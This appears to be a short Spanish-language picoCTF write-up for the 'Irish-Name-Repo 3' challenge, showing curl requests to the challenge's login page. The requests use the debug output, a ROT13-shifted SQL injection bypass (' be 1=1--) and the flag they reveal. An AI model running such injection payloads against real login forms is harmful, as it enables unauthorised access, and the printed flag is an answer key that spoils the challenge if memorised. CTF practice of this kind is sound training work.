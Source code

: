 # Retos picoCTF

# Level Irish-Name-Repo 3

## Objetivo
There is a secure website running at https://jupiter.challenges.picoctf.org/problem/40742/ (link) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

## Solucion

```
┌──(kali㉿kali)-[~]
└─$ curl "https://jupiter.challenges.picoctf.org/problem/40742/login.php" --data "password=test&debug=1"

<pre>password: test
SQL query: SELECT * FROM admin where password = 'grfg'
</pre><h1>Login failed.</h1>                                                                            
┌──(kali㉿kali)-[~]
└─$ 
                                                                            
┌──(kali㉿kali)-[~]
└─$ curl "https://jupiter.challenges.picoctf.org/problem/40742/login.php" --data "password=' or 1=1--&debug=1"
<pre>password: ' or 1=1--
SQL query: SELECT * FROM admin where password = '' be 1=1--'
</pre>                                                                            
┌──(kali㉿kali)-[~]
└─$ curl "https://jupiter.challenges.picoctf.org/problem/40742/login.php" --data "password=' be 1=1--&debug=1" && echo
<pre>password: ' be 1=1--
SQL query: SELECT * FROM admin where password = '' or 1=1--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p>

```

## Referencias


